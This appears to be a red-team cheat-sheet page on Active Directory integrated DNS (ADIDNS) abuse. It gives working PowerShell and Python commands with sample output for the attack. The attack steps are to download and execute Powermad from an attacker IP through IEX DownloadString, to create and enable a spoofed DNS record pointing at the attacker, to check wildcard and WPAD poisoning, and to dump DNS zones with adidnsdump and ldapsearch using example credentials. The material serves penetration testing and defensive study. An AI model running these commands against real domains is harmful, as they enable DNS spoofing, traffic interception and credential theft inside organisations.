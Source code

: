 ```yaml
---
description: Active Directory integrated DNS
---
```


# ADIDNS Abuse

0\. Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
```

1\. Check if you are able to modify (add) AD DNS names:

```
PS > Get-ADIDNSZone -Credential $cred -Verbose
DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=_msdcs.megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=megacorp,DC=local

PS > Get-ADIDNSPermission -Credential $cred -Verbose | ? {$_.Principal -eq 'NT AUTHORITY\Authenticated Users'}
Principal             : NT AUTHORITY\Authenticated Users
IdentityReference     : S-1-5-11
ActiveDirectoryRights : CreateChild
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

This `CreateChild` permission is what we need.

2\. Create, configure the new DNS name that could be likely exploited for spoofing with Attacker's IP and enable it. I chose `pc01` which was found in DNS cache:

```
PS > New-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
PS > $dnsRecord = New-DNSRecordArray -Type A -Data 10.10.13.37
PS > Set-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Value $dnsRecord -Credential $cred -Verbose
PS > Enable-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```

3\. Check the newly created DNS object and try to resolve it. AD will need some time (\~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol:

```
PS > Get-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Credential $cred -Verbose
PS > Resolve-DNSName pc01
PS > cmd /c ping -n 1 pc01
```

4\. Clean up:

```
PS > Remove-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```




## ADIDNS Poisoning (Wildcard Injection)

- [https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)
- [https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)
- [https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/](https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/)

Check if we can perform the attack:

```
$ python dnstool.py -u 'megacorp.local\snovvcrash' -p 'Passw0rd!' -r '*' --action query DC01.megacorp.local
$ python dnstool.py -u 'megacorp.local\snovvcrash' -p 'Passw0rd!' -r 'wpad' --action query DC01.megacorp.local
```




## Tools



### adidnsdump

* [https://github.com/dirkjanm/adidnsdump](https://github.com/dirkjanm/adidnsdump)

```
$ adidnsdump -u 'megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.megacorp.local -r [--dcfilter]
$ mv records.csv ~/ws/enum/adidns.csv
```

Check with ldapsearch:

```
$ ldapsearch -H ldap://10.10.13.37:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b 'DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local' '(objectClass=*)' dnsRecord dNSTombstoned name
```

If you need to dump a child domain ADIDNS (say `child.megacorp.local`), then you may want to use `--zone` and `--forest` options:

```
# Will dump records from DC=megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local --zone megacorp.local --forest -r

# Will attempt to dump records from DC=child.megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=child,DC=megacorp,DC=local (and may fail)
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local -r
```

Merge all the IPs into `/24` CIDRs with a Python script:

{% code title="cidr_merge.py" %}
```python
#!/usr/bin/env python3

"""
Merge standalone IPs into CIDRs.

Example:
$ cat ~/ws/enum/adidns.csv | awk -F, '{print $3}' > ip.lst
$ cidr_merge.py | sort -u -t'.' -k1,1n -k2,2n -k3,3n -k4,4n | grep -e '^192' -e '^172' -e '^10'
"""

import netaddr

iplst = []
with open('ip.lst', 'r') as fd:
	for line in fd:
		ip = line.rstrip('\n')
		try:
			iplst.append(netaddr.IPNetwork(f'{ip}/24'))
		except netaddr.core.AddrFormatError:
			pass

for net in netaddr.cidr_merge(iplst):
	print(str(net))
```
{% endcode %}

Or using [mapcidr](https://github.com/projectdiscovery/mapcidr):

```
$ eget -qs linux/amd64 "projectdiscovery/mapcidr" --to mapcidr
$ cat ~/ws/enum/adidns.csv | awk -F, '{print $3}' | egrep '^[0-9]' | ./mapcidr -aa -silent | ./mapcidr -s -silent

$ cme ldap 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -M get-network -o ALL=true
```



### DnsServer

Dump ADIDNS using PowerShell and `DnsServer` module:

```
PS > Import-Module DnsServer
PS > Get-DnsServerZone -ComputerName DC01 | % {Get-DnsServerResourceRecord -ComputerName DC01 -ZoneName $_.ZoneName -RRType A} | ft -Wrap -AutoSize | tee adidns.txt
```

